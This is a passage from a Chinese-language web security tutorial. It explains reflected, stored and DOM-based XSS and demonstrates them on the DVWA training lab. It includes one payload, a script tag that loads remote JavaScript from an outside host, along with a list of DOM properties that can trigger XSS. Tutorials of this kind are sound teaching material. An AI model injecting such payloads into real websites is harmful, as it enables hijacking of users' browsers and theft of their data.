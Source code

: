 可以分为两种类型：

- 非持久性攻击
- 持久性攻击

非持久型XSS攻击：顾名思义，非持久型XSS攻击是一次性的，仅对当次的页面访问产生影响。非持久型XSS攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

持久型XSS攻击：持久型XSS，会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。

当然我们也可以划分为如下三种类型：

- 反射型XSS,经过后端，不经过数据库
- 存储型XSS,经过后端，经过数据库
- DOM型XSS,不经过后端，基于文档对象模型(DOM),通过传入参数修改DOM结构，从而浏览器解析执行脚本

这里我们利用DVWA来分别对反射型和存储型XSS进行验证。

### 反射型XSS

在输入框输入可执行的JavaScript脚本，这里远程加载JavaScript，测试代码如下:


```javascript
<script src= http://victorsec.top/xss.js></script>
```

![][5]

反射型XSS,不会持久，构造的Payload也只会执行一次。

反射型 XSS 的数据流向是：浏览器 -> 后端 -> 浏览器

### 存储型XSS

存储型XSS,顾名思义就是将恶意代码存储到数据库中，只要访问页面，恶意代码即可执行。由此可以看出，存储型XSS的危害就比反射型XSS大很多。我们依然利用DVWA的存储XSS漏洞，输入测试代码如下：

![][6]

点击执行，会将Payload存储到数据库中，每次刷新页面都会执行恶意脚本。

![][7]

我们可以看出，存储行 XSS 的数据流向是：
浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器。

### DOM XSS

DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。

可以触发DOM XSS的属性有：

- document.referer属性
- window.name属性
- location属性
- innerHTML属性
- documen.write属性等


[1]: resources/xss1.png
[2]: resources/xss2.png
[3]: resources/xss3.png
[4]: resources/xss4.png
[5]: resources/xss5.png
[6]: resources/xss6.png
[7]: resources/xss7.png
[8]: resources/xss8.png
[9]: resources/xss9.png
[10]: resources/xss10.png
[11]: resources/xss11.png
[12]: resources/xss12.png
[13]: resources/xss13.png
[14]: resources/xss14.png
[15]: resources/xss15.png
[16]: resources/xss16.png
[17]: resources/xss17.png
[18]: resources/xss18.png
[19]: resources/xss19.png
[20]: resources/xss20.png
[21]: resources/xss21.png